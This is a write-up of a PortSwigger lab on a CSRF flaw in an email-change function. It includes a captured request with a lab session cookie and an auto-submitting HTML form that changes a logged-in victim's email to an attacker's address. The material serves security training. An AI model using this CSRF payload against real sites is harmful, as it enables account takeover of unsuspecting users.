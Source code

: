 ![Green-Neon-Hacking-Tutorials-YouTube-Thumbnail-1-.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/d1b60b5d-ec74-402e-b032-25051a3df541/Green-Neon-Hacking-Tutorials-YouTube-Thumbnail-1-.png)

Portswigger’s Lab write up: CSRF vulnerability with no defenses

In this apprentice-level lab, we will exploit a site that contains a CSRF vulnerability in its email change functionality.

After signing in  and trying to update our account’s email to something like ‘test@gmail.com’, we can see the following request in the Network tab of our browser or Burpsuite Intercept:

```markdown
POST /my-account/change-email HTTP/1.1
Host: [0a9a0027047d6aaec1fa58be003b00b3.web-security-academy.net](http://0a9a0027047d6aaec1fa58be003b00b3.web-security-academy.net/)
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Origin: [https://0a9a0027047d6aaec1fa58be003b00b3.web-security-academy.net](https://0a9a0027047d6aaec1fa58be003b00b3.web-security-academy.net/)
Connection: keep-alive
Referer: [https://0a9a0027047d6aaec1fa58be003b00b3.web-security-academy.net/my-account](https://0a9a0027047d6aaec1fa58be003b00b3.web-security-academy.net/my-account)
Cookie: session=bQKVomOrYf95eVTuf4XKAw9zlJQDsUUK
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
```

With the following body structure:

```markdown
email=test@gmail.com
```

Here we are able to identify that the update email action just requires a session cookie to authorize the user and the email parameter to execute this action. Let’s use the reading material’s HTML template for CSRF to build our attack:

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

All we need to do is replace the action attribute of the form component to our lab’s absolute email update endpoint (you can see it on the POST request we performed earlier) and the value attribute of the email input to whatever value we want the victim’s email to change to:

```markdown
<html>
    <body>
        <form action="${LAB_URL}/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="${ATTACKER_EMAIL}" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

If we save this as an HTML file, when someone visits our site, the form above will be submitted as soon as the page loads and an email update will be requested (as long as the user is authenticated on the lab’s site since a session cookie is required to perform the email update action). To solve the lab, we have to go to the exploit server, store our HTML code, and send it to the victim.

Check out this write up on:
Art Of Code: https://artofcode.tech/portswiggers-lab-write-up-csrf-vulnerability-with-no-defenses/
Medium: [https://medium.com/@artofcode_/portswiggers-lab-write-up-csrf-vulnerability-with-no-defenses-a12785f4a14a](https://medium.com/@artofcode_/portswiggers-lab-write-up-csrf-vulnerability-with-no-defenses-a12785f4a14a)

Dev.to: [https://dev.to/christianpaez/portswiggers-lab-write-up-csrf-vulnerability-with-no-defenses-4p84](https://dev.to/christianpaez/portswiggers-lab-write-up-csrf-vulnerability-with-no-defenses-4p84)
